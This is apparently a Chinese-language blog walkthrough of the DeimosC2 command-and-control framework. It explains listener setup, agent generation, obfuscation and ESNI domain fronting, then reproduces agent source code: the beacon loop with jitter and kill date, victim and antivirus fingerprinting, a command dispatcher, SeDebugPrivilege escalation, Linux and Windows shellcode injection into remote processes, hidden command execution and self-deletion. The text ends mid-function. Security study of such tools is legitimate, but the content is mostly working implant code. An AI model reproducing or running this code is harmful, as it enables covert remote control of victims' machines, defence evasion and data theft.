










简介
DeimosC2 命令与控制（C2）工具，它利用多种通信方法来控制受到威胁的计算机。 DeimosC2服务器和代理可在Windows，Darwin和Linux上运行并经过测试。
使用
导航图

添加监听器

https域名隐藏，可以指定域前置地址

点击生成agent后过一段时间会生成各种平台的木马

自带gobfuscate混淆

上线后

管理被控端

旁边还有一跳一跳的心跳监控端(看起来很直观 - =)
执行命令

可以多人协作，评论

agent启动过程
可以把”被控端”称作agent，这是agent启动过程的函数。
func main() {
http.DefaultTransport.(*http.Transport).TLSClientConfig = &tls.Config{InsecureSkipVerify: true}
aesKey, _ = base64.StdEncoding.DecodeString(stringPubKey)
// 获取aesKey
for {
agentfunctions.CheckTime(liveHours))
// 检查是否在指定时间内运行，如果不是会一直sleep到那个时间
if key == "" {
connect("getKey", "")
go connect("init", "")
// 初始化获取系统信息
} else {
go connect("check_in", "")
// 执行指令
}
agentfunctions.SleepDelay(delay, jitter)
// 抖动延时
agentfunctions.ShouldIDie(eol)
// 判断是否销毁
}
}
第一次启动agent
获取数据的数据结构
//FirstTime Struct
type initialize struct {
Key string //Agent Key
OS string //Current OS
OSType string //Type of Operating System and/or Distro
OSVers string //Version of OS
AV []string //AntiVirus Running
Hostname string //Current Machine Name
Username string //Current Username
LocalIP string //Local IP
AgentPath string //Agent Path
Shellz []string //Available System Shells
Pid int //Get PID of agent
IsAdmin bool //Is admin user
IsElevated bool //Is elevated on Windows
ListenerKey string //Listener that the agent is attached too
}
相关函数
//Shell types
const (
powerShell = "C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe"
cmd = "C:\\Windows\\System32\\cmd.exe"
zsh = "/bin/zsh"
sh = "/bin/sh"
bash = "/bin/bash"
)
//FirstTime is used to initalize an agent
func FirstTime(key string) []byte {
//Get the current executable path
agent, err := os.Executable()
if err != nil {
ErrHandling(err.Error())
}
//Get current user information
user, err := user.Current()
if err != nil {
ErrHandling(err.Error())
}
//Get current hostname
hostname, err := os.Hostname()
if err != nil {
ErrHandling(err.Error())
}
//Get local ip
addr, err := net.InterfaceAddrs()
if err != nil {
ErrHandling(err.Error())
}
var ip string
for _, a := range addr {
if ipnet, ok := a.(*net.IPNet); ok &&
!ipnet.IP.IsLoopback() && !ipnet.IP.IsLinkLocalUnicast() {
if ipnet.IP.To4() != nil {
ip = ipnet.IP.String()
}
}
}
//Get available shellz
var shellz []string
if runtime.GOOS == "windows" {
_, err := os.Stat(powerShell)
if err != nil {
ErrHandling(err.Error())
} else {
shellz = append(shellz, powerShell)
}
_, err = os.Stat(cmd)
if err != nil {
ErrHandling(err.Error())
} else {
shellz = append(shellz, cmd)
}
} else if runtime.GOOS == "linux" || runtime.GOOS == "darwin" {
_, err := os.Stat(bash)
if err != nil {
ErrHandling(err.Error())
} else {
shellz = append(shellz, bash)
}
_, err = os.Stat(zsh)
if err != nil {
ErrHandling(err.Error())
} else {
shellz = append(shellz, zsh)
}
_, err = os.Stat(sh)
if err != nil {
ErrHandling(err.Error())
} else {
shellz = append(shellz, sh)
}
}
admin, elevated := privileges.AdminOrElevated()
osType, osVers, av := fingerprint.FingerPrint()
//Place all that information into a JSON object
systemInfo := initialize{key, runtime.GOOS, osType, osVers, av, hostname, user.Username, ip, agent, shellz, os.Getpid(), admin, elevated, ""}
msg, err := json.Marshal(systemInfo)
if err != nil {
ErrHandling(err.Error())
}
cwd, _ = os.Getwd()
return msg
}
//SleepDelay sleeps between each loop of the agent with a jitter % to make it less patterned
func SleepDelay(delay float64, jitter float64) {
minSleep := delay - (delay * jitter)
maxSleep := delay + (delay * jitter)
if minSleep < 3 {
minSleep = 2
maxSleep += 2
}
time.Sleep(time.Duration(r.Intn(int((maxSleep-minSleep))+int(minSleep))) * time.Second)
}
检查时间在指定范围
var liveHours = "05：00-21：00" //该时间可以运行，格式：05：00-21：00
//CheckTime查看当前时间是否在允许的时间之间，如果直到当前时间不休眠
func CheckTime(liveHours string) {
if liveHours != "" {
allowedTime := strings.Split(liveHours, "-")
startTime := strings.Split(allowedTime[0], ":")
endTime := strings.Split(allowedTime[1], ":")
current := time.Now()
startHour, _ := strconv.Atoi(startTime[0])
startMin, _ := strconv.Atoi(startTime[1])
endHour, _ := strconv.Atoi(endTime[0])
endMin, _ := strconv.Atoi(endTime[1])
start := time.Date(current.Year(), current.Month(), current.Day(), startHour, startMin, current.Second(), current.Nanosecond(), current.Location())
end := time.Date(current.Year(), current.Month(), current.Day(), endHour, endMin, current.Second(), current.Nanosecond(), current.Location())
if current.After(start) && current.Before(end) {
// 判断 start>current && current < end 则上线，return就行
return
} else {
time.Sleep(start.Sub(current))
// 取时间差 start - current，睡眠
return
}
}
}
传递指令
指令格式
//AgentJob is the standard struct for all jobs
type AgentJob struct {
AgentKey string //Key of the agent to create the job for
JobType string //Type of job
Arguments []string //Job arguments adhering to the above formats
}
根据这个格式来执行命令
func jobExecute(j []agentfunctions.AgentJob) {
for _, value := range j {
switch value.JobType {
case "shell":
go agentfunctions.Shell(value.Arguments, false)
case "download":
go agentfunctions.Download(value.Arguments[0])
case "upload":
go agentfunctions.Upload(value.Arguments[0], value.Arguments[1], value.Arguments[2])
case "fileBrowser":
go agentfunctions.AgentFileBrowsers(value.Arguments[0])
case "options":
go options(value.Arguments[0], value.Arguments[1])
case "shellInject":
go shellinject.ShellInject(value.Arguments[0], value.Arguments[1])
case "module":
go execMod(value.Arguments[0], value.Arguments[1], value.Arguments[2])
case "reinit":
go connect("init", "")
case "kill":
agentfunctions.Kill()
connect("check_in", "")
selfdestruction.SelfDelete()
os.Exit(0)
}
}
}
agent传输协议
deimos支持的协议 Supported Agents
- TCP
- HTTPS
- DoH (DNS over HTTPS)
- agent通过访问
https://dns.google.com/resolve?name=xxx.com&type={type}&cd=fales来获取数据
- agent通过访问
- QUIC
- Pivot over TCP
域名隐藏
其中自带一个域名隐藏的方案,利用cloudflare.com，相关原理参考SixGenInc/Noctilucent: Using TLS 1.3 to evade censors, bypass network defenses, and blend in with the noise (github.com)
// 解析 cloudflare ensi
esniKeysBytes, err := QueryESNIKeysForHostDoH("cloudflare.com", true)
if err != nil {
fmt.Println("[E] Failed to retrieve ESNI keys for host via DoH: %s", err)
}
esnikeys, err := tls.ParseESNIKeys(esniKeysBytes)
if err != nil {
fmt.Println("[E] Failed to parse ESNI keys: %s", err)
}
// 设置我们访问时的tls设置
tlsConfig := &tls.Config{
InsecureSkipVerify: true,
ClientESNIKeys: esnikeys,
MinVersion: tls.VersionTLS13, // Force TLS 1.3
MaxVersion: tls.VersionTLS13,
ESNIServerName: actualDomain,
PreserveSNI: true,
ServerName: frontDomain
}
httpClient = &http.Client{
Transport: &http.Transport{
DialTLS: func(network, addr string) (net.Conn, error) {
conn, err = tls.Dial("tcp", host+":"+port, tlsConfig)
return conn, err
},
},
}
// 发送请求
r, err := httpClient.Post(("https://" + actualDomain + ":" + port + URL), "application/json", bytes.NewBuffer(someJSON))
真实地址放到sni上，伪造的地址放到esni server上。实际访问这个伪造的地址就可以了。
这个方法已经被cloudflare修复了，不再允许ensi和sni同时使用，同时国内也禁用ensi。但如果有其他cdn厂商支持这个的话也可以。
函数记录
记录一些可能会有用的函数
isadmin
判断是否是管理员账户，以及是否提升
isadmin_linux.go
//AdminOrElevated checks to see if the user is admin and if it is elevated
func AdminOrElevated() (elevated bool, admin bool) {
user, err := user.Current()
if err != nil {
panic(err)
}
userID := user.Uid
if userID == "0" {
admin = true
} else {
admin = false
}
elevated = false
return elevated, admin
}
isadmin_macos.go
//AdminOrElevated checks to see if the user is admin and if it is elevated
func AdminOrElevated() (elevated bool, admin bool) {
user, err := user.Current()
if err != nil {
panic(err)
}
userID := user.Uid
if userID == "0" {
admin = true
} else {
admin = false
}
elevated = false
return elevated, admin
}
isadmin_windows.go
// +build windows
package privileges
import (
"golang.org/x/sys/windows"
)
//Code concept from https://github.com/BishopFox/sliver/blob/8b617232a64c68fbe256bf2d394d6ee886ce43af/sliver/priv/priv_windows.go#L50
//SePrivEnable will check to see if the process has SeDebugMode set or elevate it if not
func SePrivEnable() {
var tokenHandle windows.Token
prcHandle, err := windows.GetCurrentProcess()
if err != nil {
//logging.Logger.Println(err)
}
windows.OpenProcessToken(
prcHandle, // HANDLE Process Handle
windows.TOKEN_ADJUST_PRIVILEGES, // DWORD Desired Access
&tokenHandle, // PHANDLE TokenHandle
)
/*
typedef struct _LUID {
DWORD LowPart;
LONG HighPart;
} LUID, *PLUID;
*/
var luid windows.LUID // Describes a local identifier for an adapter struct above
/*
BOOL LookupPrivilegeValueW(
LPCWSTR lpSystemName,
LPCWSTR lpName,
PLUID lpLuid
);
*/
err = windows.LookupPrivilegeValue(nil, windows.StringToUTF16Ptr("SeDebugPrivilege"), &luid)
if err != nil {
//logging.Logger.Println("LookupPrivilegeValueW Failed: ", err)
}
privilege := windows.Tokenprivileges{}
privilege.PrivilegeCount = 1
privilege.Privileges[0].Luid = luid
privilege.Privileges[0].Attributes = windows.SE_PRIVILEGE_ENABLED
/*
BOOL AdjustTokenPrivileges(
HANDLE TokenHandle,
BOOL DisableAllPrivileges,
PTOKEN_PRIVILEGES NewState,
DWORD BufferLength,
PTOKEN_PRIVILEGES PreviousState,
PDWORD ReturnLength
);
*/
err = windows.AdjustTokenPrivileges(tokenHandle, false, &privilege, 0, nil, nil)
if err != nil {
//logging.Logger.Println("AdjustTokenPrivileges Failed: ", err)
}
}
//Original code from https://coolaj86.com/articles/golang-and-windows-and-admins-oh-my/
//AdminOrElevated checks to see if the user is admin and if it is elevated
func AdminOrElevated() (elevated bool, admin bool) {
var sid *windows.SID
err := windows.AllocateAndInitializeSid(
&windows.SECURITY_NT_AUTHORITY,
2,
windows.SECURITY_BUILTIN_DOMAIN_RID,
windows.DOMAIN_ALIAS_RID_ADMINS,
0, 0, 0, 0, 0, 0,
&sid)
if err != nil {
//logging.Logger.Println("SID Error: %s", err)
}
token := windows.GetCurrentProcessToken()
member, err := token.IsMember(sid)
if err != nil {
//logging.Logger.Println("Token Membership Error: %s", err)
}
if token.IsElevated() == true {
elevated = true
} else {
elevated = false
}
if member == true {
admin = true
} else {
admin = false
}
return elevated, admin
}
shellcode注入
shellcode_linux.go
import (
"encoding/hex"
"runtime"
"syscall"
"unsafe"
)
//GOT FROM SLIVER SO WE NEED TO CHANGE AND MAKE OUR OWN
func getPage(p uintptr) []byte {
return (*(*[0xFFFFFF]byte)(unsafe.Pointer(p & ^uintptr(syscall.Getpagesize()-1))))[:syscall.Getpagesize()]
}
//ShellInject for Linux
func ShellInject(data string, process string) {
sc, _ := hex.DecodeString(data)
//logging.Logger.Println("shellcode is :", sc)
//logging.Logger.Println("Process is :", process)
//GOT FROM SLIVER SO WE NEED TO CHANGE AND MAKE OUR OWN
dataAddr := uintptr(unsafe.Pointer(&sc[0]))
page := getPage(dataAddr)
syscall.Mprotect(page, syscall.PROT_READ|syscall.PROT_EXEC)
dataPtr := unsafe.Pointer(&sc)
funcPtr := *(*func())(unsafe.Pointer(&dataPtr))
runtime.LockOSThread()
defer runtime.UnlockOSThread()
go func(fPtr func()) {
fPtr()
}(funcPtr)
}
shellcode_windows.go
import (
"encoding/hex"
"strconv"
"syscall"
"unsafe"
)
//ShellInject for Windows
//The data variable must be in a hex format
func ShellInject(data string, process string) {
//logging.Logger.Println("start inject")
//logging.Logger.Println(data[0:10])
sc, _ := hex.DecodeString(data)
//sc := data
//logging.Logger.Println("Made it to ShellInject")
//logging.Logger.Println(sc[0:10])
//logging.Logger.Println(len(sc))
//If a PID was passed then execute the shellcode into that
if process != "" {
proc, _ := strconv.ParseUint(process, 10, 32)
pid := uint32(proc)
kernel32 := syscall.NewLazyDLL("kernel32.dll")
ntdll := syscall.NewLazyDLL("ntdll.dll")
VirtualAllocEx := kernel32.NewProc("VirtualAllocEx")
VirtualProtectEx := kernel32.NewProc("VirtualProtectEx")
WriteProcessMemory := kernel32.NewProc("WriteProcessMemory")
CloseHandle := kernel32.NewProc("CloseHandle")
RtlCreateUserThread := ntdll.NewProc("RtlCreateUserThread")
WaitForSingleObject := kernel32.NewProc("WaitForSingleObject")
pHandle, _ := syscall.OpenProcess(0x0002|0x0008|0x0020|0x0400|0x0010, false, pid)
addr, _, _ := VirtualAllocEx.Call(uintptr(pHandle), 0, uintptr(len(sc)), 0x1000|0x2000, 0x40)
_, _, _ = WriteProcessMemory.Call(uintptr(pHandle), addr, uintptr(unsafe.Pointer(&sc[0])), uintptr(len(sc)))
_, _, _ = VirtualProtectEx.Call(uintptr(pHandle), addr, uintptr(len(sc)), 0x10)
var tHandle uintptr
_, _, _ = RtlCreateUserThread.Call(uintptr(pHandle), 0, 0, 0, 0, 0, addr, 0, uintptr(unsafe.Pointer(&tHandle)), 0)
_, _, _ = WaitForSingleObject.Call(tHandle, syscall.INFINITE)
_, _, _ = CloseHandle.Call(uintptr(pHandle))
//This is just basic process injection on a new binary
} else {
const MEM_COMMIT = 0x1000
const MEM_RESERVE = 0x2000
const PAGE_EXECUTE_READWRITE = 0x40
const PROCESS_CREATE_THREAD = 0x0002
const PROCESS_QUERY_INFORMATION = 0x0400
const PROCESS_VM_OPERATION = 0x0008
const PROCESS_VM_WRITE = 0x0020
const PROCESS_VM_READ = 0x0010
const CREATE_SUSPENDED = 0x00000004
var K32 = syscall.MustLoadDLL("kernel32.dll")
var VirtualAlloc = K32.MustFindProc("VirtualAlloc")
var VirtualAllocEx = K32.MustFindProc("VirtualAllocEx")
var CreateRemoteThread = K32.MustFindProc("CreateRemoteThread")
var WriteProcessMemory = K32.MustFindProc("WriteProcessMemory")
var OpenProcess = K32.MustFindProc("OpenProcess")
//logging.Logger.Println("Creating a new Process")
//Process to create
arg := syscall.StringToUTF16Ptr("c:\\windows\\system32\\svchost.exe")
var sI syscall.StartupInfo
var pI syscall.ProcessInformation
//Create it paused
// BOOL CreateProcessA(
// LPCSTR lpApplicationName,
// LPSTR lpCommandLine,
// LPSECURITY_ATTRIBUTES lpProcessAttributes,
// LPSECURITY_ATTRIBUTES lpThreadAttributes,
// BOOL bInheritHandles,
// DWORD dwCreationFlags,
// LPVOID lpEnvironment,
// LPCSTR lpCurrentDirectory,
// LPSTARTUPINFOA lpStartupInfo,
// LPPROCESS_INFORMATION lpProcessInformation
// );
err := syscall.CreateProcess(nil, arg, nil, nil, true, CREATE_SUSPENDED, nil, nil, &sI, &pI)
if err != nil {
//logging.Logger.Println("Cannot create the process")
return
}
//logging.Logger.Println("Created.. Injecting")
Shellcode := sc
L_Addr, _, _ := VirtualAlloc.Call(0, uintptr(len(Shellcode)), MEM_RESERVE|MEM_COMMIT, PAGE_EXECUTE_READWRITE)
//TODO FIGURE OUT HOW TO GET RID OF THIS
L_AddrPtr := (*[99000000]byte)(unsafe.Pointer(L_Addr))
for i := 0; i < len(Shellcode); i++ {
L_AddrPtr[i] = Shellcode[i]
}
var F int = 0
Proc, _, _ := OpenProcess.Call(PROCESS_CREATE_THREAD|PROCESS_QUERY_INFORMATION|PROCESS_VM_OPERATION|PROCESS_VM_WRITE|PROCESS_VM_READ, uintptr(F), uintptr(pI.ProcessId))
if Proc == 0 {
//logging.Logger.Println("[!] ERROR : Can't Open Remote Process.")
return
}
R_Addr, _, _ := VirtualAllocEx.Call(Proc, uintptr(F), uintptr(len(Shellcode)), MEM_RESERVE|MEM_COMMIT, PAGE_EXECUTE_READWRITE)
if R_Addr == 0 {
//logging.Logger.Println("[!] ERROR : Can't Allocate Memory On Remote Process.")
return
}
WPMS, _, _ := WriteProcessMemory.Call(Proc, R_Addr, L_Addr, uintptr(len(Shellcode)), uintptr(F))
if WPMS == 0 {
//logging.Logger.Println("[!] ERROR : Can't Write To Remote Process.")
return
}
//logging.Logger.Println(R_Addr)
CRTS, _, _ := CreateRemoteThread.Call(Proc, uintptr(F), 0, R_Addr, uintptr(F), 0, uintptr(F))
if CRTS == 0 {
//logging.Logger.Println("[!] ERROR : Can't Create Remote Thread.")
return
}
return
}
}
shell执行
exec_both.go
import "os/exec"
//ShellExecute will execute the commands passed and return the byte result
func ShellExecute(data []string, cwd string) []byte {
cmd := exec.Command(data[0], data[1:]...)
cmd.Dir = cwd
result, err := cmd.Output()
if err != nil {
return []byte(err.Error())
}
return result
}
exec_windows.go
import (
"os/exec"
"syscall"
)
//ShellExecute will execute the commands passed and return the byte result
func ShellExecute(data []string, cwd string) []byte {
cmd := exec.Command(data[0], data[1:]...)
cmd.SysProcAttr = &syscall.SysProcAttr{HideWindow: true}
cmd.Dir = cwd
result, err := cmd.Output()
if err != nil {
return []byte(err.Error())
}
return result
}
自删除
kill_linux.go
import (
"os"
)
//SelfDelete will delete the agent when called
func SelfDelete() {
path, _ := os.Getwd()
fullPath := path + "/" + os.Args[0]
err := os.Remove(fullPath)
if err != nil {
//logging.Logger.Println(err)
}
}
kill_macos.go
import (
"os"
)
//SelfDelete will delete the agent when called
func SelfDelete() {
path, _ := os.Getwd()
fullPath := path + "/" + os.Args[0]
err := os.Remove(fullPath)
if err != nil {
//logging.Logger.Println(err)
}
}
kill_windows.go
import (
"os"
"syscall"
)
//SelfDelete will delete the agent when called
func SelfDelete() {
var sI syscall.StartupInfo
var pI syscall.ProcessInformation
path, _ := os.Getwd()
comspec := os.Getenv("ComSpec")
//logging.Logger.Println("Deleting agent: ", os.Args[0])
argv := syscall.StringToUTF16Ptr(comspec + " /C del " + path + "\\" + os.Args[0])
//logging.Logger.Println("Command is: ", comspec+" /C del "+path+"\\"+os.Args[0])
err := syscall.CreateProcess(nil, argv, nil, nil, true, 0, nil, nil, &sI, &pI)
if err != nil {
//logging.Logger.Println("Couldn't self destruct because: ", err.Error())
}
}
系统信息
fingerprint_linux.go
import (
"os"
"os/exec"
"strings"
)
//FingerPrint will get the version of the Operating System
func FingerPrint() (string, string, []string) {
//Setting these higher as they will be in if/else statements due to checking for android
var osType string
var osVers string
//First we need to check if the Linux system is Android or not
if _, err := os.Stat("/system/build.prop"); err == nil {
osType = "Android"
